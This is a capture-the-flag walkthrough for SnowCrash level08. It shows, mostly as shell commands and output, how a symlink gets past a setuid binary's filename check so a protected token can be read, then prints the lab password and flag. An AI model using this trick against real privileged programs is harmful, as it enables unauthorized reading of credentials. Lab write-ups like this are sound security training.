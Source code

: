 # 1st Step  
List the file with `ls -l` will show us :  
```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$
```  
Let's do some tests  
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$
```  
If we look at the executable with `strings`:  
```
level08@SnowCrash:~$ strings level08
[...]
token
You may not access '%s'
[...]
```  
Seems there is a check against "token", let's verify our hypotesis with `ltrace`  
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                                                                                           = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                                                                                       = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$
```  
We understand that the executable opens the file passed as argument, then reads its content and prints it to the standard output but it call strstr against "token"  
  
# 2nd Step
We simply have to create a symbolic link, without token in it  and read it  
```
level08@SnowCrash:~$ ln -s ~/token /tmp/my_file
level08@SnowCrash:~$ ./level08 /tmp/my_file
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$ su level09
Password:
level09@SnowCrash:~$
```  
level08 passed !
